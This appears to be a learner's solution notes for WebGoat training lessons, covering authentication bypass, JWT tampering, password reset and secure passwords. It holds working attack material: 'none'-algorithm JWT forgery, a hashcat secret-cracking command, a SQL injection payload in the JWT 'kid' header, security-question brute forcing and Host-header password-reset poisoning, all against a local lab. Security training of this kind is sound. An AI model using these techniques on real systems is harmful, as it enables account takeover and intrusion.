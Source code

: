 # Authentication Bypass
### 2
	Method from the story doesn't work.
	But tempering with the names of the variables does.
	Change variable names to 'SecurityQuestionA' and 'SecurityQuestionB'.

# JWT Tokens
### 3
	Paste token to the WebWolf JWT tab and find name "user".
### 5
	Eavesdrop JWT from Tom.
	Put it to WebWolf and change:
	1. {
		"alg" : null
		}
	2. {
		"admin" : "true",
		"iat" : 1649869119, # this may be different
		"user" : "Tom"
		}

### 7
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parseClaimsJws-java.lang.String-
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parse-java.lang.String-

eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTUxNjIzOTAyMn0. = 
{
  "alg" : "none",
  "typ" : "JWT"
}
{
  "admin" : true,
  "iat" : 1516239022,
  "sub" : "1234567890",
  "user" : "John Doe"
}

1. Solution 1
2. Solution 3

### 8
Looked for dictionary: https://github.com/first20hours/google-10000-english

hashcat --force -m 16500 <token> google-10000-english.txt.
while knowing secret key: https://jwt.io/.
change username to WebGoat and change expiration date.
paste secret key in the bottom, without "secret base64 encoded".
copy "encoded" field.

### 10
open page 10 while in burp's browser
go to http history
find http://localhost:8080/WebGoat/JWT/refresh/login
find
Jerry:
{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}
and
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "OxTyJabcgcphndIYFhXB"
}

Tom:
{
	token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
}
now create request, request must have:
- POST request - @PostMapping
- Authorization header - Tom’s access token from the given log entries
- Content-Type header - 'application/json'
- data in JSON format access and refresh tokens - Jerry’s tokens copied straight from the /login endpoint response

so for example:
POST /WebGoat/JWT/refresh/newToken HTTP/1.1
Host: localhost:8080
Content-Length: 223
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
Content-Type: application/json
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Linux"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/WebGoat/start.mvc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=JvEkLZzu6hJuRITdAYRWW3U51wFko7S4wOSoieys
Connection: close

{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "OxTyJabcgcphndIYFhXB"
}

I got back 

{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "XkuwXVEsoUNdtwejywFz"
}

then send to repeater some POST checkout:

### 11
Open browser from Burp.

by clicking Delete we get request:

POST /WebGoat/JWT/final/delete?token=eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiSmVycnkiLCJFbWFpbCI6ImplcnJ5QHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.CgZ27DzgVW8gzc0n6izOU638uUCi6UhiOJKYzoEZGE8 HTTP/1.1

In the code for this lesson.
```
ResultSet rs = connection.createStatement().executeQuery("SELECT key FROM jwt_keys WHERE id = '" + kid + "'");
```
So we need to put something like as 'kid':
' UNION SELECT 'bmV3X2tleQ==' FROM jwt_keys; --

and produce jwt in jwt.io, also verify signature with:
! remeber to change names from jerry to tom in jwt.io

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
new_key

) secret base64 encoded

and then send it via Repeater

# Password Reset
### 2 
send email to WebWolf
login with 'leirbag'


### 4 
- open burp
- try to login while intercepting
- put it into intruder
- select **cluster bomb** type
- payload set 1:
  - tom
  - larry
  - admin
- payload set 2:
  - red
  - green
  - black
  - white
  - pink
  - orange
  - blue
  - gray
  - yellow
  - brown

answers: 
- larry; yellow
- admin; green


### 6
- via Burp
- use tom mail in the form 
- intercept restePassword message
- change Host header to "localhost:9090"
- open WebWOlf
- go to Incoming Requests
- copy uri of last request
- change port to 8080 and add /WebGoat after
- paste link
- than you can login

# Secure Passwords
# 4 
"Just because you shot Jesse James doesn't mean you are Jesse James." - JbysJJdmyaJJ
